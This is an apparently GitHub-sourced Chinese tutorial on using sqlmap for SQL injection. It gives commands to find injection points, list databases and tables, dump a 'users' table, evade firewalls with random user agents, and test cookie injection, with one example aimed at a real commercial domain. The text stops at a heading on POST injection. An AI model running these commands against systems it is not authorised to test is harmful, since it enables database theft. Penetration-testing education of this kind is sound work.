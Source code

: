 ```plain
1、检测「注入点」
python sqlmap.py -u 'http:'
2、查看所有「数据库」
python sqlmap.py -u 'http:' --dbs
3、查看当前使用的数据库
sqlmap -u 'http:' --current-db
4、查看「数据表」
sqlmap -u 'http:' -D security --tables
5、查看「字段」
sqlmap -u 'http:' -D security -T 'users' --columns
6、查看「数据」
sqlmap -u 'http:' -D security -T 'users' --dump
```

#### 部分报错解决方案

##### 第一步检查注入点失败解决方法

###### 原因

默认情况下，sqlmap发送的HTTP报文的 user-agent 都是Sqlmap而不是常见的Mozilla等，这通常会被防火墙过滤掉， 选项–random-agent 会随机选取./txt/user-agents.txt中的报头，如 Mozilla等

###### 解决方法：

在后面加上-random-agent

```plain
python sqlmap.py -u "http://" -random-agent（
```

## 检测注入

### 基本格式

sqlmap -u "http://www.vuln.cn/post.php?id=1"

默认使用level1检测全部数据库类型

sqlmap -u "http://www.vuln.cn/post.php?id=1"  --dbms mysql --level 3

指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）

### 跟随302跳转

当注入页面错误的时候，自动跳转到另一个页面的时候需要跟随302，
当注入错误的时候，先报错再跳转的时候，不需要跟随302。
目的就是：要追踪到错误信息。

### cookie注入

当程序有防get注入的时候，可以使用cookie注入
sqlmap -u "http://www.baidu.com/shownews.asp" --cookie "id=11" --level 2（只有level达到2才会检测cookie）

### 从post数据包中注入
